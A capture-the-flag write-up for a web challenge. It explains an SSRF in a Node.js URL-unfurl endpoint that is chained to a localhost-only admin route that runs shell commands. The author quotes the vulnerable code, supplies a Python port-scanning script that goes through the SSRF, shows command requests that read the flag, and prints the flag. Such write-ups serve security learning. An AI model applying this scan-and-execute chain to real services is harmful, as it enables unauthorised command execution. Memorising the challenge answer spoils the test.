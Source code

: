![[Pasted image 20250228190215.png]]

check .zip source code


### Identifying the SSRF Vulnerability

The vulnerability lies in the `/unfurl` functionality, which takes a URL as input and makes an HTTP request to that URL using `axios.get(url)`. Here is the relevant code:

```js
router.post('/unfurl', async (req, res) => {
    const { url } = req.body;

    if (!url) {
        return res.status(400).json({ error: 'No URL provided!' });
    }

    try {
        const response = await axios.get(url); // Vuln here
        const html = response.data;
        const $ = cheerio.load(html);

        const title = $('title').text() || 'No title found';
        const description = $('meta[name="description"]').attr('content') || 'No description found';

        res.json({ title, description, html, image });
    } catch (error) {
        console.error(`[ERROR] Failed to unfurl URL: ${error.message}`);
        res.status(404).json({ error: 'Failed to unfurl the URL.' });
    }
});```

#### Issue

The service does not validate the URL provided by the user, allowing an attacker to specify a URL pointing to internal services (e.g., `http://127.0.0.1:PORT`). This constitutes an **SSRF** because the server makes requests to internal resources based on user input.

---

### 2. Discovering the Internal Admin Panel

The admin panel is hosted on a random port between 1024 and 4999. Here is the relevant code:

```js
function getRandomPort() {
    const MIN_PORT = 1024;
    const MAX_PORT = 4999;
    let port;
    do {
        port = Math.floor(Math.random() * (MAX_PORT - MIN_PORT + 1)) + MIN_PORT;
    } while (port === 5000);
    return port;
}

const adminPort = getRandomPort();
adminApp.listen(adminPort, '127.0.0.1', () => {
    console.log(`[INFO] Admin app running on http://127.0.0.1:${adminPort}`);
});```

#### Issue

Although the admin panel is accessible only from `localhost` (`127.0.0.1`), the SSRF vulnerability allows bypassing this restriction. An attacker can use the `/unfurl` functionality to send requests to `http://127.0.0.1:PORT` and discover the port on which the admin panel is exposed.

---

### 3. Command Execution Functionality

The admin panel exposes a functionality to execute system commands (`/admin/execute`). Here is the relevant code:

```js
router.get('/execute', (req, res) => {
    const clientIp = req.ip;

    // ip address verif
    if (clientIp !== '127.0.0.1' && clientIp !== '::1') {
        console.warn(`[WARN] Unauthorized access attempt from ${clientIp}`);
        return res.status(403).send('Forbidden: Access is restricted to localhost.');
    }

    const cmd = req.query.cmd;

    if (!cmd) {
        return res.status(400).send('No command provided!');
    }

    exec(cmd, (error, stdout, stderr) => {
        if (error) {
            console.error(`[ERROR] Command execution failed: ${error.message}`);
            return res.status(500).send(`Error: ${error.message}`);
        }

        console.log(`[INFO] Command executed: ${cmd}`);
        res.send(`
            <h1>Command Output</h1>
            <pre>${stdout || stderr}</pre>
            <a href="/admin">Back to Admin Panel</a>
        `);
    });
});```

#### Issue

The command execution functionality is supposed to be restricted to `localhost`, but the SSRF vulnerability allows bypassing this restriction. An attacker can exploit this functionality to execute arbitrary commands on the server.

---

### Exploiting the Vulnerability

#### Step 1: Discovering the Admin Panel Port

1. **Using SSRF to scan ports**:
    
    - The SSRF vulnerability allows sending requests to `http://127.0.0.1:PORT` via the `/unfurl` functionality.
        
    - The goal is to scan ports between 1024 and 4999 to find the one on which the admin panel is exposed.
        
2. **Scan script**:
    
    - I wrote a script to automate the port scan. For each port, the script sends a request to `http://127.0.0.1:PORT` via `/unfurl`.
        
    - If the response contains "Admin Panel," it means the port has been found.
        

```python
import requests

UNFURL_URL = 'http://challenge.ctf.games:31214/unfurl' # Your port on the instance

def test_port(port):
    target = f'http://127.0.0.1:{port}'
    data = {'url': target}
    try:
        response = requests.post(UNFURL_URL, json=data, timeout=1)
        if response.status_code == 200:
            html = response.json().get('html', '')
            if 'Admin Panel' in html:
                print(f"Admin panel found on port {port}!")
                return port
    except:
        pass
    return None
def find_admin_port():
    common_ports = [3000, 4000, 5000, 8080, 8000]
    for port in common_ports:
        result = test_port(port)
        if result:
            return result
    for port in range(1024, 5000):
        result = test_port(port)
        if result:
            return result
    
    return None
print("Scanning for admin panel...")
admin_port = find_admin_port()
if admin_port:
    print(f"Admin panel is running on port {admin_port}.")
else:
    print("fuck")```

#### Step 2: Executing Arbitrary Commands

1. **Exploiting the `/execute` functionality**:
    - For example, to execute `ls`, I sent a request to `http://127.0.0.1:PORT/execute?cmd=ls`

![[Pasted image 20250228191819.png]]

I sent a request to `http://127.0.0.1:PORT/execute?cmd=cat%20flag.txt`
%20 = 1 space

![[Pasted image 20250228191757.png]]

```
flag{e1c96ccca8777b15bd0b0c7795d018ed}
```